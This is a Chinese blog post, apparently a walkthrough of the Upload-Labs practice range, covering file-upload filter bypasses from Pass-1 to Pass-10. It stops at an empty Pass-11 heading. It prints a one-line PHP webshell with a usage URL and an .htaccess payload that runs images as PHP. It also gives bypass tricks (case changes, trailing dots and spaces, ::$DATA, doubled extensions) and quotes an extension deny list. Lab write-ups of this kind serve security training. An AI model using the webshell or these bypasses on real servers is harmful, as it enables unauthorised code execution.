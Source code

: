 ```yaml
---
layout: post
title: "Uplode-Labs通关笔记"
date: 2019-4-8 20:49:43
author: co0ontty
categories: CTF WEB ALL
tags: CTF WEB ALL 
describe: 根据Uplode-Labs总结文件上传绕过技巧 
cover: 'https://i.loli.net/2019/04/08/5cab11a102167.png'
---
```


## 漏洞类型分析
![漏洞类型分析](https://i.loli.net/2019/04/08/5caafd2f23ed2.png)
## 漏洞类型判断    
![思路图](https://i.loli.net/2019/04/08/5caafa634c7f7.png)  
## 简单shell制作  
shell.php  
```php
<?php assert($_GET["cmd"])?>
```
使用方法：  
http://104.36.68.99/upload/shell.php?cmd=phpinfo();  
## Pass-1  （前端JS判断）
使用burp进行抓包直接上传webshell，发现在没有数据传输的情况下判定为不合规文件这说明在客户端通过JS进行判断   

[![屏幕快照 2019-04-08 16.58.50.png](https://i.loli.net/2019/04/08/5cab0e218624d.png)](https://i.loli.net/2019/04/08/5cab0e218624d.png)
[![屏幕快照 2019-04-08 16.59.04.png](https://i.loli.net/2019/04/08/5cab0e2234de6.png)](https://i.loli.net/2019/04/08/5cab0e2234de6.png)
[![屏幕快照 2019-04-08 16.59.06.png](https://i.loli.net/2019/04/08/5cab0e22e9b1e.png)](https://i.loli.net/2019/04/08/5cab0e22e9b1e.png)

将图中标红色的1.php改为1.png  

[![屏幕快照 2019-04-08 17.00.48.png](https://i.loli.net/2019/04/08/5cab0e1fc6cfd.png)](https://i.loli.net/2019/04/08/5cab0e1fc6cfd.png)

成功上传，执行shell   

[![屏幕快照 2019-04-08 17.12.25.png](https://i.loli.net/2019/04/08/5cab108972e22.png)](https://i.loli.net/2019/04/08/5cab108972e22.png)

### 大佬教的骚操作：
禁用本页JS，直接上传   
[![01-1.png](https://i.loli.net/2019/04/09/5cabf54fdd3de.png)](https://i.loli.net/2019/04/09/5cabf54fdd3de.png)  

## Pass-2  （服务器端端后缀判断）

使用burp抓包上传1.php，网页发送数据，burp获得流量，可以判断为服务器端响应。  
①将文件后缀修改为jpg后上传，再将1.png修改为1.php,成功上传    
②上传1.php，将包文件中的 Content-Type: 修改为 image/jpeg 成功上传   
最终达到的效果为：
[![屏幕快照 2019-04-09 08.52.37.png](https://i.loli.net/2019/04/09/5cabece6799fe.png)](https://i.loli.net/2019/04/09/5cabece6799fe.png)  
可以判断为服务器端检查文件类型  
## Pass-3（白名单-.phtml、.php5）
将1.php的后缀修改为jpg进行上传，抓包修改后缀上传提示错误   
[![屏幕快照 2019-04-09 09.02.22.png](https://i.loli.net/2019/04/09/5cabef6455bba.png)](https://i.loli.net/2019/04/09/5cabef6455bba.png)
证明服务器端检查后缀   
尝试上传任意后缀文件（php语言除了可以解析以php为后缀的文件，还可以解析phtml、php2，php3、php4、php5这些后缀的文件。） 

上传成功，证明使用的检查模式为黑名单检查。  

## Pass-4 （白名单-.htaccess)
本题目为JS前端判断后缀，服务端黑名单过滤数据。  
后端未过滤".htaccess"文件，上传".htaccess"文件，文件内容为
```php
<FilesMatch "03.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
该代码文件将03.jpg解析为php文件  
[![屏幕快照 2019-04-09 19.53.36.png](https://i.loli.net/2019/04/09/5cac893e518c1.png)](https://i.loli.net/2019/04/09/5cac893e518c1.png)
上传成功后，上传图片马03.jpg ，运行成功    
[![屏幕快照 2019-04-09 19.55.50.png](https://i.loli.net/2019/04/09/5cac8971e083b.png)](https://i.loli.net/2019/04/09/5cac8971e083b.png)  
## Pass-5（未区分大小写）
Pass-4中存在以下代码：  
```php
 $file_ext = strtolower($file_ext); //转换为小写
```
而Pass-5中没有，说明Pass-5虽然过滤了所有的文件后缀，但是没有区分大小写。
上传shell.PHP即可绕过  
## Pass-6（文件名+后缀+空格）
相比于第五关的过滤条件缺少了
```php
 $file_ext = trim($file_ext); //首尾去空
```
所以通过构造文件名+后缀+空格进行绕过，即"shell.php "
## Pass-7  （shell.php.）
缺少"."过滤代码：
```php
$file_name = deldot($file_name);//删除文件名末尾的点
```
所以利用windows文件系统的文件名特性（windows系统上的文件名最后一个.会被去掉）通过构造shell.php.进行绕过  
## Pass-8 （::$DATA）
Windows文件流特性绕过，文件名改成shell.php::$DATA，上传成功后保存的文件名其实是shell.php
## Pass-9  （点+空格+点）
黑名单过滤，注意第15行和之前不太一样，路径拼接的是处理后的文件名，于是构造info.php. . （点+空格+点），经过处理后，文件名变成info.php.，即可绕过，经过windows文件系统的特性处理后即可上传访问成功。
## Pass-10  （双写后缀名）
第8行代码存在上传漏洞：
```php
6：$deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");
7: $file_name = trim($_FILES['upload_file']['name']);
8:$file_name = str_ireplace($deny_ext,"", $file_name);

```
该代码的作用为将第六行中的$deny_ext中的后缀名替换为空。
所以本题目可以使用双写后缀名的方法进行绕过。
![屏幕快照 2019-04-12 09.29.58.png](https://i.loli.net/2019/04/12/5cafeae609ce6.png)
## Pass-11 